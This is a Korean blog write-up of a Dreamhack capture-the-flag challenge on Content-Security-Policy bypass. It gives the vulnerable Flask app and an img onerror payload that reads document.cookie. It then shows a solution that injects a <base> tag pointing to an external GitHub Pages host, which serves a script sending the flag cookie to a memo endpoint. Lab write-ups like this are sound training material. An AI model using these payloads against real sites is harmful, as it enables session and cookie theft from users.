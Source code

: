```yaml
---
title: "[2025-08-06] CSP Bypass advanced"
excerpt: "XSS"

categories:
  - Problem
tags:
  - [XSS]

permalink: /Problem/[2025-08-06] CSP Bypass advanced/

toc: true
toc_sticky: true

date: 2025-08-06
last_modified_at: 2025-08-06
---
```


## 🦥 본문

- app.py

```html
#!/usr/bin/python3
from flask import Flask, request, render_template
from selenium import webdriver
from selenium.webdriver.chrome.service import Service
import urllib
import os

app = Flask(__name__)
app.secret_key = os.urandom(32)
nonce = os.urandom(16).hex()

try:
    FLAG = open("./flag.txt", "r").read()
except:
    FLAG = "[**FLAG**]"

def read_url(url, cookie={"name": "name", "value": "value"}):
    cookie.update({"domain": "127.0.0.1"})
    try:
        service = Service(executable_path="/chromedriver")
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome(service=service, options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get("http://127.0.0.1:8000/")
        driver.add_cookie(cookie)
        driver.get(url)
    except Exception as e:
        driver.quit()
        # return str(e)
        return False
    driver.quit()
    return True

def check_xss(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)

@app.after_request
def add_header(response):
    global nonce
    response.headers['Content-Security-Policy'] = f"default-src 'self'; img-src https://dreamhack.io; style-src 'self' 'unsafe-inline'; script-src 'self' 'nonce-{nonce}'; object-src 'none'"
    nonce = os.urandom(16).hex()
    return response

@app.route("/")
def index():
    return render_template("index.html", nonce=nonce)

@app.route("/vuln")
def vuln():
    param = request.args.get("param", "")
    return render_template("vuln.html", param=param, nonce=nonce)

@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html", nonce=nonce)
    elif request.method == "POST":
        param = request.form.get("param")
        if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
            return f'<script nonce={nonce}>alert("wrong??");history.go(-1);</script>'

        return f'<script nonce={nonce}>alert("good");history.go(-1);</script>'

memo_text = ""

@app.route("/memo")
def memo():
    global memo_text
    text = request.args.get("memo", "")
    memo_text += text + "\n"
    return render_template("memo.html", memo=memo_text, nonce=nonce)

app.run(host="0.0.0.0", port=8000)

```

기존의 코드에서 취약했던/vuln 에서 render_template()를 사용하여 html을 리턴하는 방식으로 바꼈다.

- vuln.html

```html
{% raw %}
{% block content %}
  {{ param | safe }}
{% endblock %}
{% endraw %}
```

 

위와 같이 html이 되어 있길래 아래와 같이 보냈는 데 실패 했다.

```html
<img src="https://dreamhack.io/xxx" onerror="location.href='/memo?memo='+ document.cookie">
```

마침 `base-uri` 가 설정되어 있지 않기 때문에 `<base>` 태그를 삽입하여 공격할 수 있다고 생각했다.

### 풀이

- 기본 틀인 base.html에서 다음과 같은 코드가 있다

```html
		{% raw %}
		<script src="{{ url_for('static', filename='js/jquery.min.js')}}" nonce={{ nonce }}></script>
    <script src="{{ url_for('static', filename='js/bootstrap.min.js') }}" nonce={{ nonce }}></script>
    {% endraw %}
```

- base-uri를 통해 공격 서버를 만들고 해당 서버에서 다음과 같은 코드를 보냄

```html
location.href="http://127.0.0.1:8000/memo?memo="+ document.cookie
```

- 위의 코드를 받은 스크립트 문이 vuln API에서 렌더링되기 때문에 공격 성공

1. 개인 서버가 없기 때문에 github 블로그를 통해 JS 코드를 전달할 것이다.
2. gitblog에 static/js 폴더를 만들고 jquery.min.js 파일을 아래와 같이 만들었다

```html
location.href="http://127.0.0.1:8000/memo?memo="+ document.cookie
```

1. `<base>` 태그를 통해 해당 코드에 접근하게 했다

```html
<base href="https://yunseo10987.github.io/">
```